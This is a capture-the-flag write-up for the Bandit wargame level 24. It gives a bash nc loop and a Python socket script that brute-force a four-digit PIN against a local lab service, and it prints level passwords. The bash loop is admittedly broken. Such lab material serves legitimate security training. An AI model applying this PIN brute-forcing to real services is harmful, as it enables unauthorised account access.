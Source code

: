 ```py
passwd="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
for a in {0000-10000};
  do
    echo $passwd $a | nc localhost 30002 >> result &
  done

# put in result and search
# but actullay it cannot loop
# need troubleshoott
bandit24@melinda:/tmp/jhalon$ chmod 755 script.sh
bandit24@melinda:/tmp/jhalon$ ./script.sh
bandit24@melinda:/tmp/jhalon$ sort result | uniq -u
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```



2.
```py
import socket

pin = 0
password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 30002))
s.recv(1024)

while True:
#  print ' [Heart] Sending Pin: ' + str(pin)
  s.sendall(password+' '+str(pin)+'\n')
  data=s.recv(1024)
#  print data

  if "Fail" in data:
     print data
     exit(0)
  elif "Wrong" in data:
     print "wrong Pincode: " + str(pin)
  else:
     print "Got Pincode: " + str(pin)
     print data
     exit(0)
  pin +=1

# results
[+] Sending Pin: 3710
[+] Sending Pin: 3711
```

- First import the socket library, socket is required to make network connections.
- Then initialize the `pin` variable with a 0 and set my `password` variable.
- Next establish an object called `s` which sets up my socket.
  - use the `socket` object and have it `connect to ‘localhost’ on port ‘30002’` and then using `s.recv(1024)` accept the `banner`.
  - So far this just established the connection to the service. Now we enter a while loop to brute force the password.
